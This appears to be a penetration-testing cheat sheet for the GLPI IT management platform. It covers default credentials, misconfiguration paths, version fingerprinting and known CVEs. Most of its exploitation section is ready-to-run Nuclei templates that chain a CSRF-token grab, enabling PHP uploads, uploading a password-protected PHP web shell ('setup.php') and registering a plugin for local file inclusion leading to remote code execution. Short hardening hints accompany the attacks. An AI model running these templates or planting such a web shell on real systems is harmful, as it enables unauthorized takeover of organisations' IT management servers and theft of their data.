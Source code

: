 # GLPI IT Management

<div class="row row-cols-lg-2"><div>

GLPi is a popular open-source it management platform. It can be used for a variety of use cases going from host management to ticketing.

* [Official website](https://glpi-project.org/)
* [Github](https://github.com/glpi-project/glpi) <small>(4.6k ⭐)</small>
* MySQL/MariaDB and PHP

GLPi is commonly found in french enterprises even if they have another solutions globally, often for a specific use case.
</div><div>

Default credentials are:

* `glpi:glpi` (Super Admin)
* `post-only:post-only` (Self-Service)
* `tech:tech` (Technician)
* `normal:normal` (Observer)

⚠️ Using this software may be dangerous as each [release](https://github.com/glpi-project/glpi/releases) usually has many patched vulnerabilities <small>(3-7 per release, excluding misconfigurations)</small>.
</div></div>

<hr class="sep-both">

## GLPI — Website Discovery

<div class="row row-cols-lg-2"><div>

#### GLPI Discovery — Forced Browsing

By default, GLPI webserver should be mapped to the `/public/` folder. It's often misconfigured, leading to internal files being web-accessible.

* [x] `/files/` - critical sensitive files, protected by .htaccess
  * [ ] `/files/_log/` - server and application logs
  * [x] `/files/_sessions/` - PHP sessions
  * [x] `/files/_tmp/` or `/files/_uploads/` - uploaded files 
* [x] `/version/` - directory listing may be enabled
* [x] `/vendor/` - protected by .htaccess
</div><div>

#### GLPI Discovery — Fingerprint

GLPI may leak its version when misconfigured.

* [x] Detect GLPI Install Page
* [x] Check for a version file in `/version/`
* [ ] Bruteforce version file such as `/version/10.0.10`
* [ ] Check `About` for GLPI version once connected
* [ ] Check `/CHANGELOG.md` for GLPI version
* [ ] Check `/ajax/telemetry.php` for versions once connected
* [x] Check `/status.php` to detect GLPI configuration

Additional insight

- [ ] `v=2b8ebd59a8d46b694cc14c813395db6f6b21a878` (10.0.10)
- [ ] `v=f00074be0f11547b4d9f9b662d7f05ba23166190` (10.0.14)
</div></div>

<hr class="sep-both">

## GLPI — Website Exploitation

<div class="row row-cols-lg-2"><div>

#### GLPI Exploitation — Weak Credentials

We may get a foothold if default credentials were not changed.

* [x] Test all default credentials

🛡️ Use strong passwords and disable default accounts.

#### GLPI Exploitation — .htaccess failure

By default, `.htaccess` are ignored by Apache unless `AllowOverride` is specified. This can lead to multiple security issues.

* [ ] Navigate to `/files/_session/` and try every cookie
* [ ] Upload a PHP script and run it from `/files/_tmp/`

🛡️ Only expose the `/public/` folder or use `AllowOverride` on Apache.

#### GLPI Exploitation — PHP File Upload

🤖 Tested with GLPI `10.0.10` to `10.0.16`. Access: `[Observer+]`.

<details class="details-n">
<summary>Allow PHP Extension In File Upload</summary>

```yaml!
id: glpi-enable-php-upload

info:
  name: GLPI Enable PHP Upload
  author: anonymous
  severity: info

http:
  - method: GET
    path:
      - "{{BaseURL}}/front/profile.form.php"

    matchers:
      - type: status
        status:
          - 200

      - type: word
        part: body
        words:
          - <meta property="glpi:csrf_token" content="

    extractors:
      - type: regex
        internal: true
        part: body
        name: token
        group: 1
        regex:
          - <meta\sproperty="glpi:csrf_token"\scontent="([[:alnum:]]{64})"

  - method: POST
    path:
      - "{{BaseURL}}/front/documenttype.form.php"

    headers:
      Content-Type: "multipart/form-data; boundary=----48d91b129fc5f9f6167b0f7da257b91"

    body: "------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"_glpi_csrf_token\"\r\n\r\n{{token}}\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"name\"\r\n\r\nPHP\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"comment\"\r\n\r\n\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"icon\"\r\n\r\nai-dist.png\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"is_uploadable\"\r\n\r\n1\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"ext\"\r\n\r\nphp\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"mime\"\r\n\r\n\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"add\"\r\n\r\n1\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"_glpi_csrf_token\"\r\n\r\n{{token}}\r\n------48d91b129fc5f9f6167b0f7da257b91--\r\n"

    extractors:
      - type: status
        status:
          - 302
```
</details>

<details class="details-n">
<summary>Upload PHP File</summary>

```yaml!
id: glpi-upload-php-webshell

info:
  name: GLPI Upload setup.php webshell
  description: |
    Only one uploaded file can be named "setup.php" which can be used along with a specific LFI to get a RCE.
    This code upload some setup.php file that can be used to load another arbitrary.php.
    This makes it easy to exploit a website as we cannot delete nor modify "setup.php".

    With the intended LFI exploit, simply use: 

    {{BaseURL}}/front/plugin.php?passwd=Pwned1234!&target=your_real_webshell.php)
  author: anonymous
  severity: info

http:
  - method: GET
    path:
      - "{{BaseURL}}/front/profile.form.php"

    matchers:
      - type: status
        status:
          - 200

      - type: word
        part: body
        words:
          - <meta property="glpi:csrf_token" content="

    extractors:
      - type: regex
        internal: true
        part: body
        name: token
        group: 1
        regex:
          - <meta\sproperty="glpi:csrf_token"\scontent="([[:alnum:]]{64})"

  - method: POST
    path:
      - "{{BaseURL}}/ajax/fileupload.php"

    headers:
      X-Glpi-Csrf-Token: "{{token}}"
      Content-Type: "multipart/form-data; boundary=----5caea02864785d478355a5e77c18d034"

    body: "------5caea02864785d478355a5e77c18d034\r\nContent-Disposition: form-data; name=\"name\"\r\n\r\n_uploader_filename\r\n------5caea02864785d478355a5e77c18d034\r\nContent-Disposition: form-data; name=\"showfilesize\"\r\n\r\n1\r\n------5caea02864785d478355a5e77c18d034\r\nContent-Disposition: form-data; name=\"_uploader_filename[]\"; filename=\"setup.php\"\r\nContent-Type: application/octet-stream\r\n\r\n<?php\r\nif(isset($_GET['passwd'])&&$_GET['passwd']===\"Pwned1234!\"){ini_set('display_errors',1);error_reporting(E_ALL);echo \"Password OK\";if(isset($_GET['target'])){include_once $_GET['target'];}die();}\r\n------5caea02864785d478355a5e77c18d034--\r\n"

    matchers:
      - type: status
        status:
          - 200
```
</details>

🛡️ It seems in recent versions, they banned a few extensions.
</div><div>

#### GLPI Exploitation — LFI To RCE

🤖 Tested with GLPI `10.0.10` to `10.0.16`. Access: `[Super Admin]`.

<details class="details-n">
<summary>Enable Plugin Creation</summary>

```yaml!
id: glpi-enable-plugin-creation

info:
  name: GLPI Enable Plugin Creation
  author: anonymous
  severity: info

http:
  - method: GET
    path:
      - "{{BaseURL}}/front/profile.form.php"

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - <meta property="glpi:csrf_token" content="
        name: csrf
        internal: true

    extractors:
      - type: regex
        internal: true
        part: body
        name: token
        group: 1
        regex:
          - <meta\sproperty="glpi:csrf_token"\scontent="([[:alnum:]]{64})"

  - method: POST
    path:
      - "{{BaseURL}}/front/profile.form.php"

    headers:
      Content-Type: "application/x-www-form-urlencoded"

    # Default is "3", to enabled plugins, we use "31"
    # (enabled on id=4 which is super-admin)
    body: "_config%5B31_0%5D=1&id=4&update=Save&_glpi_csrf_token={{token}}"

    matchers:
      - type: status
        status:
          - 302
```
</details>

<details class="details-n">
<summary>Create Plugin With Arbitrary PHP File</summary>

```yaml!
id: glpi-lfi-using-plugins

info:
  name: GLPI LFI using Plugins
  author: anonymous
  severity: info

http:
  - method: GET
    path:
      - "{{BaseURL}}/front/profile.form.php"

    matchers:
      - type: status
        status:
          - 200

      - type: word
        part: body
        words:
          - <meta property="glpi:csrf_token" content="

    extractors:
      - type: regex
        internal: true
        part: body
        name: token
        group: 1
        regex:
          - <meta\sproperty="glpi:csrf_token"\scontent="([[:alnum:]]{64})"

  - method: POST
    path:
      - "{{BaseURL}}/ajax/kanban.php?action=add_item&itemtype=Plugin"

    headers:
      X-Glpi-Csrf-Token: "{{token}}"
      Content-Type: "application/x-www-form-urlencoded"

    body: "action=add_item&inputs=directory%3d../files/_tmp%26name%3dpwned%26version%3d1.0.0%26author%3dPwned"

    extractors:
      - type: dsl
        dsl:
          - status_code_2
```
</details>

📚 Original article: [OCD Exploit](https://sensepost.com/blog/2024/from-a-glpi-patch-bypass-to-rce/)

#### GLPI Exploitation - Known CVEs

List of known exploitable CVEs.

* [ ] [CVE-2019-10232](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2019/CVE-2019-10232.yaml)
* [ ] [CVE-2020-11034](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2020/CVE-2020-11034.yaml)
* [ ] [CVE-2021-39211](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2021/CVE-2021-39211.yaml)
* [ ] [CVE-2021-43778](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2021/CVE-2021-43778.yaml)
* [ ] [CVE-2022-35914](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2022/CVE-2022-35914.yaml)
* [ ] [CVE-2024-29889](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2024/CVE-2024-29889.yaml)
</div></div>